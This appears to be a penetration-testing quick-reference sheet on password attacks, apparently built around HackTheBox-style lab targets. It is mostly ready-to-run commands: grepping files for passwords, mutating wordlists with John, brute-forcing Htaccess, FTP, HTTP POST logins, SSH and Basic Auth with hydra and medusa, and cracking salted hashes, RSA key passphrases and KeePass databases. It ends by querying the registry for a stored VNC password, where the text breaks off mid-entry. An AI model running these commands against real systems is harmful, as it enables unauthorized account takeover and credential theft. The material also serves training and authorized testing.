 ## Quick Reference

- Finding Passwords
    ```
    grep -rl hash
    grep -rl password
    ```
- Mutate wordlists
    ```
    /etc/john/john.conf
    > $[0-9]$[0-9]
    ```
    ```
    john --wordlist=out.txt --rules --stdout > mutated.txt
    ```
- Password Cracking
    ```
    john hashes.txt
    ```
- Htaccess
    ```
    medusa -h ip -u admin -P passwords.txt -M http -m DIR:/admin -T 20
    ```
- FTP
    ```
    hydra  -l admin -P pass.txt -v ip ftp
    ```
- HTTP Post
    ```
    hydra -l none -P rockyou.txt 10.10.10.43 http-post-form
    "/department/login.php:username=admin&password=^PASS^:Invalid Password" -t 64 -V
    ```
- SSH
    ```
    hydra -L usernames.txt -P passwords.txt -s 2222 ssh://10.10.10.66 -v -t 4
    ```
- Basic Auth
    ```
    cewl example.com -m 6 -w /root/mega-cewl.txt 2> /dev/null
    john --wordlist=mega-cewl.txt --rules --studout > mega-cewl-mutated.txt
    medusa -h admin.example.com -u admin -P mega-cewl-mutated.txt -M http -n 81 -m DIR:/admin -T 30
    ```
- Salted Hash Cracking
  - oclHashcat - input file should be in format: `passwordhash:salt`
    ```
    oclHashcat-plus64.bin -m 110 hashes.txt ../big-wordlist --force
    ```
- RSA Private Key Password Recovery
    ```
    ssh2john id_rsa > id_john
    john id_john --wordlist=<PATH TO ROCKYOU.TXT>
    ```
- KeePass Password Recovery
    ```
    keepass2john jeeves.kdbx > jeeves.hash
    john jeeves.hash
    ```
- VNC
    ```
    reg query HKLM\SOFTWARE\RealVNC\vncserver
    Value: Password
